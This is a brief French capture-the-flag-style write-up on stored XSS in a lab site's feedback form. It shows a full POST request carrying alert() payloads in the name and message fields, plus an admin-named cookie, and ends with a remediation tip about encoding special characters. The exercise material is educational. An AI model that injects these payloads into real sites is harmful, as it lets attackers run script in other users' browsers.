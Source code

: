 # XSS stored injection

## Exploitation

Sur la page ?page=feedback: on peut voir un formulaire pour laisser un feedback ce mesage apres avoir ete submit s'affiche sans aucune verification dans la page elle meme. 

Requete:
http://192.168.122.55/?page=feedback
xss stored
request:

POST /?page=feedback HTTP/1.1
Host: 192.168.122.55
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 105
Origin: http://192.168.122.55
Connection: close
Referer: http://192.168.122.55/?page=feedback
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1

txtName=<body onload=alert(0)>&mtxtMessage=%3Cscript%3Ealert%280%29%3C%2Fscript%3E&btnSign=Sign+Guestbook

En veritee pour l'exercice le flag s'obtiens seulement en marquant le terme "script" dans le champ message.
Pour obtenir une reelle XSS on utiliseras un onload dans le champ Name.

## Resolution

Pour eviter ce type de failles on preferas encoder les caracteres speciaux 

 ---- Never Trust User Input ----
